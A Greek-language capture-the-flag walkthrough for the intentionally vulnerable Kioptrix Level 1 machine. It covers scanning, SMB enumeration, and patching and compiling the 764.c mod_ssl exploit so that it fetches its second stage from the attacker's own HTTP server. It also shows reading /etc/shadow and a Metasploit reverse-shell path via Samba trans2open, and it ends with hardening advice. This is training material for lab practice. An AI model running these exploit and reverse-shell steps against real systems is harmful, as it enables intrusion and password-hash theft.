








# Kioptrix: Level 1 CTF — Walkthrough βασισμένο σε βίντεο

Ο οδηγός αυτός ακολουθεί **βήμα προς βήμα** τη μεθοδολογία ενός βίντεο-walkthrough για το μηχάνημα **Kioptrix: Level 1 (#1)** του VulnHub. Σε αντίθεση με ένα απλό «κυνήγι flags», εδώ δίνεται έμφαση στη **φιλοσοφία ενός πραγματικού penetration test** — δηλαδή στην αναζήτηση αδυναμιών στις **υπηρεσίες** του στόχου — καθώς και σε ένα θέμα που κάνει το Kioptrix 1 ιδιαίτερα διδακτικό: την **επικαιροποίηση (patching) και τη μεταγλώττιση (compilation) ενός παλιού exploit** ώστε να τρέξει σε σύγχρονο Kali Linux.

> - **VM:** [VulnHub — Kioptrix: Level 1 (#1)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
> - **Κατηγορία:** Boot-to-Root, Δυσκολία: Beginner (OSCP-like)
> - **Στόχος παιχνιδιού:** απόκτηση **root** με οποιοδήποτε μέσο (δεν υπάρχει flag αρχείο — η απόδειξη είναι το `uid=0`).

#### **Προσοχή! Όλες οι IP διευθύνσεις στις οδηγίες είναι ενδεικτικές. Εδώ ο στόχος εμφανίζεται ως `192.168.1.106`, αλλά σε κάθε περιβάλλον ο DHCP αποδίδει διαφορετικές διευθύνσεις. Προσαρμόστε κάθε εντολή στο δικό σας δίκτυο αντί να την εκτελείτε αυτούσια.**

---

## Σημείωση για τα screenshots

Το παρόν walkthrough εικονογραφείται με **ενδεικτικά στιγμιότυπα τερματικού** που αναπαριστούν την αναμενόμενη έξοδο κάθε σταδίου. Δεν πρόκειται για frames του βίντεο ούτε για καταγραφή ζωντανού στόχου, αλλά για **αντιπροσωπευτικές οθόνες** που βοηθούν στην κατανόηση της ροής. Τα ακριβή banners, hashes και διευθύνσεις θα διαφέρουν στο δικό σας περιβάλλον.

---

## Η Φιλοσοφία: «Ψάξε αδυναμίες, όχι flags»

Το Kioptrix είναι μια σειρά εικονικών μηχανών σχεδιασμένων να προσομοιώνουν **ρεαλιστικά σενάρια** penetration testing και συχνά προτείνονται ως προετοιμασία για πιστοποιήσεις τύπου **OSCP**. Ο στόχος δεν είναι η συλλογή σημαιών, αλλά η **πλήρης κατάκτηση του συστήματος (root)** μέσω της εκμετάλλευσης των εκτεθειμένων υπηρεσιών.

**Τι μαθαίνει κανείς από το Kioptrix 1:**

* **Service enumeration** — χαρτογράφηση θυρών και ακριβών εκδόσεων (Nmap), SMB enumeration (`enum4linux`, `rpcclient`).
* **Αναγνώριση rabbit holes** — όχι κάθε ανοιχτή υπηρεσία είναι ο δρόμος προς το root, ο web server εδώ είναι «δόλωμα».
* **Αντιστοίχιση έκδοσης → exploit** (`searchsploit`) με βάση τα banners.
* **Exploit maintenance** — η πιο σημαντική δεξιότητα του lab: **patching & compilation** ενός ξεπερασμένου exploit ώστε να χτίζεται και να τρέχει σήμερα.

---

## Μεθοδολογία (PTES)

```
[ Reconnaissance ]  →  εύρεση IP (netdiscover) & ανοιχτών θυρών (Nmap)
        │
        ▼
[ Enumeration ]     →  enum4linux / rpcclient (SMB), dirb (web), searchsploit
        │
        ▼
[ Vuln Analysis ]   →  Apache mod_ssl 2.8.4 < 2.8.7  (CVE-2002-0082)
        │
        ▼
[ Exploitation ]    →  patch + compile "OpenFuck" (764.c) → remote root
        │
        ▼
[ Post-exploit ]    →  επιβεβαίωση uid=0(root)  &  σημειώσεις hardening
```

---

## Πληροφορίες Στόχου

* **Όνομα Στόχου:** Kioptrix: Level 1 (#1)
* **Πλατφόρμα:** VulnHub
* **Λειτουργικό:** Red Hat Linux (kernel 2.4.x) — εποχής ~2001
* **Επιθετική Μηχανή:** Kali Linux
* **Κύριος φορέας επίθεσης:** `Apache 1.3.20` + `mod_ssl 2.8.4` (θύρες 80/443)
* **Εναλλακτικός φορέας:** `Samba` (θύρα 139) — βλ. [Παράρτημα](#εναλλακτικό-μονοπάτι-samba-trans2open)

---

## Βήμα 0: Προετοιμασία & Έλεγχος Δικτύου

Πριν από κάθε επίθεση, εντοπίζουμε τον στόχο στο τοπικό υποδίκτυο. Το `netdiscover` στέλνει ARP αιτήματα και αποκαλύπτει τους ενεργούς hosts:

```bash
ip addr show                      # η δική μας IP / subnet
sudo netdiscover -r 192.168.1.0/24   # ή: sudo arp-scan -l
ping -c 4 192.168.1.106           # έλεγχος συνδεσιμότητας
```



*Εικόνα 1 — Το `netdiscover` εντοπίζει τον στόχο στη διεύθυνση `192.168.1.106`. Τα πρώτα 3 bytes της MAC (OUI) αποκαλύπτουν τον hypervisor — π.χ. `00:0c:29` / `00:50:56` για VMware, `08:00:27` για VirtualBox.*

---

## Βήμα 1: Αναγνώριση — Σάρωση Θυρών (Nmap)

Εκτελούμε σάρωση με service/version detection και aggressive mode. Η ακριβής αναγνώριση των **εκδόσεων** είναι καθοριστική, γιατί το μηχάνημα είναι τόσο παλιό που η έκδοση κάθε υπηρεσίας οδηγεί απευθείας σε γνωστά CVEs:

```bash
sudo nmap -sV -A -T4 192.168.1.106
```

### Ανάλυση της εντολής

* **`-sV`** — Service/Version detection (banner grabbing): η ακριβής έκδοση κάθε υπηρεσίας.
* **`-A`** — Aggressive: OS detection, version detection, default NSE scripts και traceroute.
* **`-T4`** — επιθετικός χρονισμός, κατάλληλος για σταθερό τοπικό εργαστήριο.



*Εικόνα 2 — Nmap: ανοιχτές οι θύρες 22 (ssh), 80 (http), 111 (rpcbind), 139 (samba), 443 (ssl/https) και 32768 (status).*

### Εντοπισμένες Ανοιχτές Θύρες

| Port / Protocol | Service | Έκδοση | Παρατήρηση |
| :--- | :--- | :--- | :--- |
| **`22/tcp`** | **ssh** | OpenSSH 2.9p2 | Πολύ παλιά, αλλά χωρίς εύχρηστο remote exploit. |
| **`80/tcp`** | **http** | Apache 1.3.20 + mod_ssl/2.8.4 | **Ο κύριος στόχος** (μέσω του mod_ssl). |
| **`111/tcp`** | **rpcbind** | RPC portmapper | Δείχνει τις εγγεγραμμένες RPC υπηρεσίες. |
| **`139/tcp`** | **netbios-ssn** | Samba | Επιτρέπει null session, **εναλλακτικό μονοπάτι**. |
| **`443/tcp`** | **ssl/https** | Apache 1.3.20 + mod_ssl/2.8.4 | Η SSL πλευρά του ίδιου ευπαθούς web server. |
| **`32768/tcp`** | **status** | RPC status (rpc.statd) | Ιστορικά ευπαθές, εδώ όμως rabbit hole. |

> **Παρατήρηση:** Το banner του Apache αποκαλύπτει ταυτόχρονα **τρεις** πληροφορίες-κλειδιά: `Apache/1.3.20`, `mod_ssl/2.8.4` και `OpenSSL/0.9.6b`. Κρατήστε τα — θα χρειαστούν και για το matching του exploit και για την επιλογή του σωστού offset.

---

## Βήμα 2: Enumeration του SMB (enum4linux / rpcclient)

Με ανοιχτές τις θύρες 139/111, αξίζει να απαριθμήσουμε τον Samba. Το `enum4linux` δοκιμάζει **null session** (κενό username/password) και συγκεντρώνει πληροφορίες χρηστών, ομάδων και shares:

```bash
enum4linux -a 192.168.1.106
```



*Εικόνα 3 — Ο server επιτρέπει session με κενά διαπιστευτήρια (null session), αλλά **η έκδοση του Samba δεν αποκαλύπτεται** στο banner.*

Επιβεβαιώνουμε χειροκίνητα το null session με τον `rpcclient`:

```bash
rpcclient -U "" -N 192.168.1.106
rpcclient $> enumdomusers      # απόπειρα απαρίθμησης χρηστών
rpcclient $> srvinfo
```

> **Συμπέρασμα:** Το null session υπάρχει, αλλά οι εντολές user enumeration δεν επιστρέφουν κάτι αξιοποιήσιμο, και **η έκδοση του Samba παραμένει κρυφή**. Αυτό δεν σημαίνει ότι ο Samba είναι ασφαλής — απλώς ότι θα χρειαστεί διαφορετική προσέγγιση (βλ. εναλλακτικό μονοπάτι). Προς το παρόν στρεφόμαστε στον web server.

---

## Βήμα 3: Εξέταση του Web Server & Directory Fuzzing

Ανοίγουμε `http://192.168.1.106/` και `https://192.168.1.106/` στον browser: εμφανίζεται η **προεπιλεγμένη σελίδα «Test Page» του Apache** — ένδειξη ότι δεν φιλοξενείται κανονική εφαρμογή. Οι τυπικοί πρώτοι έλεγχοι:

```bash
curl -s http://192.168.1.106/robots.txt     # εδώ: τίποτα
dirb http://192.168.1.106/                   # content discovery
nikto -h http://192.168.1.106                # γνωστές web ευπάθειες
```



*Εικόνα 4 — Το `dirb` επιστρέφει μόνο τα τυπικά `cgi-bin/`, `manual/`, `mrtg/`, `usage/` μιας προεπιλεγμένης εγκατάστασης Apache.*

> **Rabbit hole:** Ο web server **δεν περιέχει εφαρμογή** προς εκμετάλλευση — είναι εκεί για να σας απασχολήσει. Το πραγματικό τρωτό σημείο δεν βρίσκεται *μέσα* στο site, αλλά στο **ίδιο το λογισμικό** που το σερβίρει: το `mod_ssl 2.8.4`.

---

## Βήμα 4: Vulnerability Analysis — Αντιστοίχιση Exploit

Ελέγχουμε με `searchsploit` τις εκδόσεις που βρήκε το Nmap. Το OpenSSH 2.9 και το Apache 1.3.20 δεν δίνουν κάτι άμεσα εύχρηστο, αλλά το **`mod_ssl < 2.8.7`** δίνει το κλασικό remote buffer overflow:

```bash
searchsploit openssh 2.9          # → τίποτα πρακτικό
searchsploit apache 1.3.20        # → κυρίως directory traversal (rabbit hole)
searchsploit mod_ssl 2.8          # → το ζητούμενο
```



*Εικόνα 5 — `mod_ssl < 2.8.7 OpenSSL Remote Buffer Overflow` (γνωστό ως «OpenFuck» / «OpenFuckV2»), διαδρομή `unix/remote/764.c`.*

Η ευπάθεια αντιστοιχεί στο **CVE-2002-0082** (heap overflow στο `mod_ssl` κατά τον χειρισμό της SSL handshake). Η έκδοση του στόχου είναι `2.8.4`, δηλαδή **μικρότερη** του `2.8.7` → ευπαθής. Αντιγράφουμε τον κώδικα τοπικά:

```bash
searchsploit -m unix/remote/764.c
```

---

## Βήμα 5: Το «κλειδί» του lab — Patching & Compilation

Εδώ βρίσκεται η πραγματική διδακτική αξία του Kioptrix 1. Ο κώδικας `764.c` γράφτηκε πριν ~20 χρόνια και **δεν μεταγλωττίζεται ως έχει** σε σύγχρονο Kali: αναφέρεται σε παλιές κεφαλίδες OpenSSL και κατεβάζει το δεύτερο στάδιο (`ptrace-kmod.c`) από ένα **νεκρό URL**.

### 5.1 Εγκατάσταση απαιτούμενων βιβλιοθηκών

Το exploit συνδέεται με τη βιβλιοθήκη OpenSSL (`-lcrypto`), οπότε χρειάζονται τα development headers:

```bash
sudo apt-get update
sudo apt-get install -y libssl-dev
```

### 5.2 Απαιτούμενες τροποποιήσεις στον `764.c`

Ανοίγουμε το αρχείο (`nano 764.c`) και κάνουμε τρεις αλλαγές:

1. **Προσθήκη κεφαλίδων** κοντά στα υπάρχοντα `#include <openssl/...>`:

   ```c
   #include <openssl/rc4.h>
   #include <openssl/md5.h>
   #include <string.h>
   #include <stdlib.h>
   ```

2. **Αντικατάσταση του νεκρού wget URL** που κατεβάζει το `ptrace-kmod.c`. Βρίσκουμε τη γραμμή με το `wget ...ptrace-kmod.c` και τη δείχνουμε σε έναν **ζωντανό** καθρέφτη του payload (ή το σερβίρουμε τοπικά — βλ. σημείωση).

3. **Αποθήκευση** και έξοδος.

### 5.3 Μεταγλώττιση

```bash
gcc -o OpenFuck 764.c -lcrypto
```



*Εικόνα 6 — Η μεταγλώττιση ολοκληρώνεται. Οι προειδοποιήσεις τύπου `incompatible pointer type` είναι **αναμενόμενες** (παλιός κώδικας) και δεν εμποδίζουν την παραγωγή του εκτελέσιμου `OpenFuck`.*

> **Σημείωση για το payload (`ptrace-kmod.c`):** Το exploit, μετά το αρχικό overflow, κατεβάζει και μεταγλωττίζει *στον στόχο* ένα δεύτερο exploit τοπικής κλιμάκωσης (local privesc). Αν το αρχικό URL είναι νεκρό, η πιο αξιόπιστη λύση είναι να **σερβίρετε εσείς** το `ptrace-kmod.c` από τη μηχανή επίθεσης (π.χ. `python3 -m http.server 80` στον φάκελό του) και να δείξετε εκεί το wget μέσα στον `764.c`.

---

## Βήμα 6: Επιλογή Offset & Εκτέλεση

Τρέχοντας το εκτελέσιμο χωρίς ορίσματα, εμφανίζεται ο πίνακας των **υποστηριζόμενων offsets** (ένας ανά συνδυασμό διανομής/έκδοσης Apache). Πρέπει να επιλέξουμε αυτόν που ταιριάζει στο banner του Nmap:

```bash
./OpenFuck
```



*Εικόνα 7 — Αναζητούμε την εγγραφή `RedHat Linux 7.2 (apache-1.3.20)`. Στην πράξη λειτουργεί το offset **`0x6b`** (η δεύτερη παραλλαγή, το `0x6a` συχνά αποτυγχάνει).*

### Εκτέλεση της επίθεσης

Η σύνταξη είναι `./OpenFuck <offset> <target> [-c <connections>]`. Το `-c` ορίζει πόσες παράλληλες SSL συνδέσεις θα ανοιχτούν για να «γεμίσει» το heap, μια τιμή **50** είναι αξιόπιστη:

```bash
./OpenFuck 0x6b 192.168.1.106 -c 50
```



*Εικόνα 8 — Μετά τη SSL σύνδεση και την αποστολή του shellcode, το δεύτερο στάδιο (`ptrace-kmod`) μεταγλωττίζεται στον στόχο και αποκτούμε **root shell**: `uid=0(root)`.*

### Ανάλυση της αλυσίδας εκμετάλλευσης

1. **Heap overflow στο `mod_ssl`** (CVE-2002-0082) κατά την SSLv2 handshake → απομακρυσμένη εκτέλεση κώδικα ως χρήστης `apache`.
2. Το shellcode **κατεβάζει και μεταγλωττίζει** στον στόχο το `ptrace-kmod.c` (τοπικό privesc που εκμεταλλεύεται το `ptrace`/kmod του kernel 2.4).
3. Το δεύτερο στάδιο ανεβάζει το shell από `apache` σε **`root`**.

---

## Βήμα 7: Επιβεβαίωση (Post-exploitation)

Δεν υπάρχει αρχείο flag — η απόδειξη της κατάκτησης είναι τα δικαιώματα root:

```bash
id             # uid=0(root) gid=0(root)
uname -a       # Linux kioptrix.level1 2.4.7-10 ...
whoami         # root
cat /etc/shadow | head   # πρόσβαση στα password hashes όλων των χρηστών
```

Σε αυτό το σημείο, ένας επιτιθέμενος θα είχε **πλήρη έλεγχο** του συστήματος: ανάγνωση/τροποποίηση κάθε αρχείου, εξαγωγή διαπιστευτηρίων (`/etc/shadow`), εγκατάσταση persistence και pivoting προς το υπόλοιπο δίκτυο.

---

## Εναλλακτικό Μονοπάτι: Samba (trans2open)

Το Kioptrix 1 λύνεται με **περισσότερους από έναν** τρόπους. Πέρα από το `mod_ssl`, η θύρα **139 (Samba)** είναι επίσης ευπαθής: οι παλιές εκδόσεις Samba (`< 2.2.8a`) πάσχουν από το **trans2open buffer overflow** (CVE-2003-0201), που επίσης δίνει root απευθείας.

```bash
# Μέσω Metasploit (ενδεικτικά):
msfconsole -q
use exploit/linux/samba/trans2open
set RHOSTS 192.168.1.106
set payload linux/x86/shell_reverse_tcp
set LHOST <KALI_IP>
run
```

> Αν και ο `enum4linux` δεν αποκάλυψε την έκδοση του Samba, το trans2open συχνά πετυχαίνει «στα τυφλά» λόγω του εύρους εκδόσεων που καλύπτει. Πρόκειται για χρήσιμη άσκηση σύγκρισης: **δύο ανεξάρτητες υπηρεσίες, δύο ανεξάρτητα μονοπάτια προς root.**

---

## Σύνοψη Επίθεσης

| Στάδιο | Εργαλείο / Τεχνική | Αποτέλεσμα |
| :--- | :--- | :--- |
| **Discovery** | `netdiscover` | Εντοπισμός στόχου (`192.168.1.106`) |
| **Scanning** | `nmap -sV -A` | Θύρες 22/80/111/139/443/32768, Apache 1.3.20 + mod_ssl 2.8.4 |
| **Enumeration** | `enum4linux`, `rpcclient`, `dirb` | Null session, web server = rabbit hole |
| **Vuln analysis** | `searchsploit mod_ssl 2.8` | CVE-2002-0082 (`764.c` / OpenFuck) |
| **Exploit prep** | `libssl-dev`, patch headers + wget URL, `gcc -lcrypto` | Λειτουργικό εκτελέσιμο `OpenFuck` |
| **Exploitation** | `./OpenFuck 0x6b <ip> -c 50` | **Root shell** (`uid=0`) |

---

## Μέτρα Αποκατάστασης (Hardening)

| Αδυναμία | Αντίμετρο |
| :--- | :--- |
| Ευπαθές `mod_ssl 2.8.4` / `OpenSSL 0.9.6b` | Αναβάθμιση σε υποστηριζόμενες εκδόσεις, τακτικό patch management |
| Παρωχημένο λειτουργικό (Red Hat, kernel 2.4) | Αντικατάσταση με υποστηριζόμενη διανομή, απόσυρση end-of-life συστημάτων |
| Samba με null session & παλιά έκδοση | Αναβάθμιση Samba, `restrict anonymous`, αφαίρεση περιττού SMB |
| Έκθεση περιττών υπηρεσιών (rpcbind, status) | Αρχή ελάχιστης επιφάνειας, firewall, απενεργοποίηση αχρησιμοποίητων services |
| Αποκάλυψη εκδόσεων στα banners | Απόκρυψη/ελαχιστοποίηση banners (`ServerTokens Prod`, `ServerSignature Off`) |

---

## Βασικά «take-aways»

* Σκέψου σαν pentester: **ψάξε αδυναμίες στις υπηρεσίες, όχι flags**.
* Η **ακριβής έκδοση** μιας υπηρεσίας (banner) είναι συχνά όλο κι όλο που χρειάζεται για να βρεις το exploit.
* Μην παγιδεύεσαι σε **rabbit holes** — ο web server εδώ είναι καθαρό δόλωμα.
* Τα παλιά exploits **δουλεύουν**, αρκεί να ξέρεις να τα **επικαιροποιείς και να τα μεταγλωττίζεις** — η πιο μεταφέρσιμη δεξιότητα αυτού του lab.
* Σχεδόν πάντα υπάρχει **περισσότερος από ένας** δρόμος προς το root.